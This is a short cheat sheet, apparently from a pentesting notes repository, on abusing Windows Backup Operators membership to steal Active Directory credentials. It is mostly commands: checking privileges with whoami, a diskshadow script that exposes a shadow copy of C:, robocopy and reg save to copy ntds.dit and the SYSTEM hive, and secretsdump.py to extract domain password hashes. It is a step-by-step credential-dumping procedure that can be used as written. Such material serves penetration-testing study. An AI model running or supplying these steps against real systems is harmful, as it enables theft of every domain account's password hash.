 If the user is a part of the Backup Operator group, the user has the ability to create system backups and could be used to obtain copies of sensitive system files that can be used to retrieve passwords such as the SAM and SYSTEM Registry hives and the NTDS.dit Active Directory database file.

## <span style="color:lightgreen">Detection</span>

1. The user should be a part of the Backup Operators group and should have  SeBackupPrivilege and SeRestorePrivilege Enabled

```console
C:\Temp> net user unsername-here
C:\Temp> whoami /all
```

## <span style="color:lightgreen">Exploitation</span>

### Kali VM
1. Create this script and transfer it to Windows VM

```powershell
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

### Windows VM

1. Pass the script to **diskshadow unility** to create the shadow copy
```powershell
PS C:\Temp> diskshadow /s script.txt
```
2. Now copy the NTDS file using **_Robocopy_** to the Temp file we created in the C: drive
```powershell
PS C:\Temp> robocopy /b E:\Windows\ntds . ntds.dit
```
3. Next we get the system registry hive that contains the key needed to decrypt the NTDS file with **_reg save_** command.
```powershell
PS C:\Temp> reg save hklm\system c:\temp\system.hive
```

### Dumping NTML Hashes

1. We can use `secretsdump.py` do decrypt the DA creds on Kali VM

```console
$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL | tee hash-dump
```

